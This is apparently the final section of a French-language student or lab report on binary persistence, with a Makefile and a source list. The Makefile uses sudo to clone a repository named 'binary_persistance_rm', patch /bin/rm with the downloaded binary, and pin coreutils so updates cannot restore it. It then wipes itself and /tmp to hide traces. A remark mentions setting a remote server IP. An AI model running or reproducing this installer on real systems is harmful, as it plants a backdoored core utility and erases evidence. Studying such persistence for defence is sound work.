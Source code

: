 #### 6.1 Code Makefile 

```makefile
# Makefile config new rm pour Ubuntu/Debian
all: setup install_dependencies download_files apply_patch hold_package clean remove_makefile
setup:
	sudo apt-get update -qq
install_dependencies:
	sudo apt-get install -y build-essential bsdiff gcc make wget tar git
download_files:
	git clone https://github.com/SoufianeElkha/binary_persistance_rm project_rm
	cd project_rm && git checkout main
apply_patch:
	bsdiff /bin/rm project_rm/rm project_rm/rm_patch
	bspatch /bin/rm rm_out project_rm/rm_patch
	sudo mv rm_out /bin/rm
	sudo chmod +x /bin/rm
hold_package:
	sudo apt-mark hold coreutils
clean:
	sudo mv project_rm /tmp/
remove_makefile:
	sudo mv Makefile /tmp/
	sudo rm -rf /tmp/*
	clear
.PHONY: all setup install_dependencies download_files apply_patch hold_package clean remove_makefile
```





**Attention**, en utilisant ce makefile dans un environnement de test,  sachez qu'il faudrait modifier le calcul de l'IP pour obtenir l'IP  correcte du nouvel OVH ou du serveur préféré. Ce makefile modifie  directement la commande `rm` dans le système de fichiers `/bin`.



## SOURCES

1. **OVH Cloud** :
   - [Site officiel d'OVH](https://www.ovh.com/manager/#/hub)
2. **Apache HTTP Server** :
   - [Site officiel d'Apache HTTP Server](https://httpd.apache.org/)
3. **PHP Documentation** :
   - [PHP: move_uploaded_file - Manual](https://www.php.net/manual/en/function.move-uploaded-file.php)
4. **Ubuntu** :
   - [Télécharger Ubuntu Server](https://ubuntu.com/download/server)
   - [Documentation Ubuntu Patch](https://doc.ubuntu-fr.org/patch)
5. **Coreutils** :
   - [GNU Coreutils](http://ftp.gnu.org/gnu/coreutils/)
6. **GNU Wget** :
   - Wget Documentation
7. **GNU Bsdiff** :
   - [Bsdiff Documentation](https://manpages.ubuntu.com/manpages/lunar/man1/bsdiff.1.html)
8. **Make** :
   - [Make Tutorial](https://manpages.ubuntu.com/manpages/lunar/man1/makepp_tutorial.1.html)
9. **VirtualBox** :
   - [Site officiel de VirtualBox](https://www.virtualbox.org/)
